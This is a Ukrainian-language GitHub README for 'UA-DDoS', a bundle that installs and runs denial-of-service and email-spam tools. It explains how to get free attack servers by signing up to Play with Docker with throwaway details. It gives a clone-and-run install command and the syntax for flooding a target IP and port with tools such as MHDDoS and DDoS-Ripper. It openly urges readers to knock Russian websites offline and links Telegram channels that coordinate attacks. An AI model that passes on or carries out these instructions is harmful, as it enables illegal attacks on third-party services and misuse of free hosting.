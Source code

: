 ![](https://raw.githubusercontent/BogdanDevUA/Ukraine/master/ukraine.svg)

> [**Read in English**](README-en.md)

# UA-DDoS ![](https://raw.githubusercontent/BogdanDevUA/Ukraine/master/mini_ukraine.svg)

## Запускайте в Git bash або в [PWD](https://labs.play-with-docker.com/) (Play with docker)

Спочатку зареєструйтесь в **PWD**

[![Try in PWD](https://raw.githubusercontent.com/play-with-docker/stacks/master/assets/images/button.png)](https://labs.play-with-docker.com/)

Якщо що - пишіть <https://t.me/dirim>

Я допоможу

## Деплой

### Переходимо на сайт і натискаємо _login_ -> _docker_

Вас перекине на нове вікно

![](images/1.png)

### В полі ___Docker ID___ пишемо рандомні букви-цифри (запишіть їх десь)

![](images/2.png)

### Після реєстрації - ви маєте сервер!

![](images/3.png)

#### Тепер ви можете валити російські сайти по повній програмі!

## Установка

```sh
git clone https://github.com/BogdanDevUA/UA-DDoS.git \
  && . UA-DDoS/install.sh
```

Цю дію треба робити тільки один раз

## Інструкція

```text
В аргуметах (наприклад ddos-ripper -s <ip>), треба писати так:

ddos-ripper -s 123.45.67.89
Не ddos-ripper -s <123.45.67.89>

Аргументи в квадратних дужках - рекомендовані параметри

Наприклад:
uashield 500 true

std - стандартизовані параметри, можна не вказувати

Наприклад:
ddos-ripper -s 123.45.67.89

Порт 80 буде автоматично вказано
Щоб вказати інший порт, допишіть -p <port>

Якщо хочеш завантажити інші програми:
load <автор> <репозиторій>

Наприклад:
load opengs uashield

Запуск uashield: uashield <потоки[500]> <проксі[true]>
Запуск MHDDoS: mhddos
Запуск DDoS-Ripper: ddos-ripper -s <ip> -p <порт[std:80]>
Запуск SPAM-EMAIL: spam-email
``` 

### Думаю все зрозуміло, тепер ти можеш дудосити російські сайти) !


## Ресурси:

* > [**uashield**](https://github.com/opengs/uashield)

* > [**MHDDoS**](https://github.com/MHProDev/MHDDoS)

* > [**DDoS-Ripper**](https://github.com/palahsu/DDoS-Ripper)

* > [**SPAM-EMAIL**](https://github.com/mkdirlove/SPAM-EMAIL)

## Чати та канали телеграм по DDoS:
* <https://t.me/UAcyberfront/9> ![](https://raw.githubusercontent/BogdanDevUA/Ukraine/master/mini_ukraine.svg)

* [**Cyber Hackers UA**](https://t.me/CyberHackersUA)


## Слава Україні! ![](https://raw.githubusercontent/BogdanDevUA/Ukraine/master/mini_ukraine.svg)
